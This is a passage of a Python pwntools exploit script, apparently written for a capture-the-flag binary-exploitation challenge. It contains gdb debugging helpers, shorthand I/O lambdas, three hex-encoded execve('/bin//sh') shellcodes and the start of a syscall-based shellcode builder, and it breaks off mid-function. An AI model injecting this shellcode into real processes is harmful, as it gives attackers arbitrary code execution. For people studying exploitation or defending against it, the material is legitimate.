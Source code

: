 ```Python
                gdb.attach(p,debug_str) 
        else:
                for i in addr:
                        debug_str+='b *{}\n'.format(hex(i))
                gdb.attach(p,debug_str) 

def dbg():
        gdb.attach(p)
#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send((data))        #in case that data is an int
sa      = lambda delim,data         :p.sendafter(str(delim), (data)) 
sl      = lambda data               :p.sendline((data)) 
sla     = lambda delim,data         :p.sendlineafter(str(delim), (data)) 
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
it      = lambda                    :p.interactive()
uu32    = lambda data   :u32(data.ljust(4, '\0'))
uu64    = lambda data   :u64(data.ljust(8, '\0'))
bp      = lambda bkp                :pdbg.bp(bkp)
li      = lambda str1,data1         :log.success(str1+'========>'+hex(data1))

        
def dbgc(addr):
        gdb.attach(p,"b*" + hex(addr) +"\n c")

def lg(s,addr):
    print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------
bss_base = 0x7FFFFFFEF000
bss2_base = 0x7FFFFFFEF000 + 0x1000

code = ''
def read(idx, ptr, sz):
    global code
    code += asm(
        '''
            mov eax,0
            mov edi,{}
            mov rsi,{}
            mov edx,{}
            syscall  
        '''.format(idx, ptr, sz)
    )
def write(idx, ptr, sz):
    global code
    code += asm(
        '''
            mov eax,1
            mov edi,{}
            mov rsi,{}
            mov edx,{}
            syscall  
        '''.format(idx, ptr, sz)
    )
def close(idx):
    global code
    code += asm(
        '''
```
